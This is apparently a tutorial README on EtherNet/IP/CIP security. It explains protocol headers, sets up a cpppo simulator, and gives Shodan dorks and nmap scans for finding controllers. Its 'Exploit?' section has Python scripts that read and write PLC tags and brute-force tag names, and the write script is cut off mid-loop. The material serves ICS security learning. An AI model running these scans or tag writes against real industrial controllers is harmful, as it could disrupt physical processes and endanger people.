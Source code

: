 ## EtherNet/IP - Theory

![EtherNet/IP OSI Model](docs/ethernetip_osi_model.jpg)

![EtherNet/IP Frame Structure](docs/ethernetip_frame_structure.jpg)

*CIP specifications are quite prescriptive about the packet structure. This means that every EtherNet/IP and CIP device has to comply with the commands within the specifications. The CIP Encapsulation header includes the fields within the EtherNet/IP header:*

![Ethernet/IP CIP Structure](docs/ethernetip_cip_structure.jpg)

  * **Command** - A two-byte integer that relates to a specific command per CIP specification. Within CIP, a device must accept commands that it does not recognize and handle this exception without breaking the connection.
  * **Length** - A two-byte integer that represents the length of the data portion of the packet; this field should be 0 for packets that contain no data, such as for a request packet.
  * **Session Handle** - The Session Handle is generated by the target device and returned to the originator of the session. This handle will be utilized in future communications with the target device.
  * **Status** - This status reflects the ability of the receiver of the packet to execute the given command that was sent. A 0 reflects the successful completion of the command. In all request packets, the status is 0. Other status code responses include
    * **0x0001** -> Invalid or unsupported command
    * **0x0002** -> Insufficient resources in the receiver to handle the command
    * **0x0003** -> Poorly formed or incorrect data
    * **0x0065** -> Received invalid data length
  * **Sender Context** -> The sender of the command will generate this six-byte value, and the receiver will return this value unchanged.
  * **Options** -> This value should always be 0; if it’s not 0, the packet will be discarded.
  * **Command-specific data** -> This field changes based on the command itself that was received and sent.

Quoted from *HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions by C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*


## EtherNet/IP Simulator

To install a python implementation of EtherNet/IP Stack in a Ubuntu VM:

``` 
$ sudo -H pip install --upgrade cpppo
$ python -m cpppo.server.enip -v
python -m cpppo.server.enip -v
12-16 01:53:33.461 MainThread root     NORMAL   main       Loaded config files: []
12-16 01:53:33.461 MainThread enip.srv NORMAL   main       Delaying all responses by 0.0 seconds
12-16 01:53:33.462 MainThread root     NORMAL   main       EtherNet/IP Simulator: ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] running on ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] responding to external done/disable signal in object 139661755723408
12-16 01:53:33.462   Thread-1 enip.srv NORMAL   enip_srv   EtherNet/IP Server enip_UDP begins serving peer None
``` 

or start this way to enable an array of 1000 INT values. Tag is called *SCADA*:

``` 
python -m cpppo.server.enip SCADA=INT[1000] -v
``` 


## Dorks and detection

Use these to get started with shodan then you can extend fingerprints based on results!

``` 
Device type: Communications Adapter
port:44818
```

Usually, service is on port **44818 TCP** or sometime on **2222 UDP**. To discover devices in a specific subnet, nMap scan should look like:

``` 
$ nmap -p44818 172.16.252.1/24

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:58 EET

Nmap scan report for 172.16.252.134
Host is up (0.00062s latency).
PORT      STATE SERVICE
44818/tcp open  unknown
``` 

or use a passivie method to scan for live hosts then check ports: [scan.md](../scan.md)

and if you want to analyze the service itself: https://nmap.org/nsedoc/scripts/enip-info.html


``` 
$ nmap 172.16.252.134 -p 44818 --script=enip-info

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:55 EET
Nmap scan report for 172.16.252.134
Host is up (0.00028s latency).
PORT      STATE SERVICE
44818/tcp open  EtherNet-IP-2
| enip-info: 
|   Vendor: Rockwell Automation/Allen-Bradley (1)
|   Product Name: 1756-L61/B LOGIX5561
|   Serial Number: 0x006c061a
|   Device Type: Programmable Logic Controller (14)
|   Product Code: 54
|   Revision: 20.11
|_  Device IP: 0.0.0.0
``` 

To go deeper, check this out: https://github.com/paperwork/pyenip


## Exploit?

1. Use *RSLogix 5000 Software* - it will allow you to perform some direct operations and even rewrite firmware.

2. Use *cpppo* to read/write tags:

**Write a specific tag:**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[13]", "SCADA[2]=(INT)37" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
``` 

**Read a specific tag:**

The trick in reading is that you have to already know the name of the tag you want to read! In the example, the tag name is "SCADA", the one used when simulator was started!

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[1]", "SCADA[2]" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
        print( "%s: %20s: %s" % ( time.ctime(), descr, value ))
```

The only difference is the *line 7*, where the value is defined!

**Find new tags using broute force**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client

host = "192.168.179.131"

with open('tagNames.txt') as f:
    tags = f.read().splitlines()                    # read all the tag names in the dictionary file, 
                                                    # stripping of newlines
with client.connector( host=host ) as conn:
    for tag in tags:
        req = conn.read( tag + '.ACC')              # adding .ACC to avoid errors on not DINT type tags

        assert conn.readable(timeout=1.0), "Failed to receive reply"

        reply = next(conn)
        for k, v in reply.items():                  # Scan through the Key and Value pairs returned
            if str(k).endswith('status'):
				if (v == 5):                        # Found a valid tag if the transaction status is 5 
                    print tag + " is a valid tag"
```

where *tagNames.txt* is a list of possible tags, one per line:

```
motor
pump
tank
valve
actuator
power
circuit
room
grid
panel
control
john
cena
password
username
user
pass
secret
safe
key
hidden
```

Usefull tools for this step:
  * https://github.com/kenexis/PortableICS-MITM
  * https://www.rapid7.com/db/modules/auxiliary/admin/scada/multi_cip_command
  * http://reversemode.com/downloads/logix_report_basecamp.pdf


## Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * Introduction into ICSs world: https://www.myplctraining.com/beginners-plc-overview-part-1-of-4-introduction-to-plcs/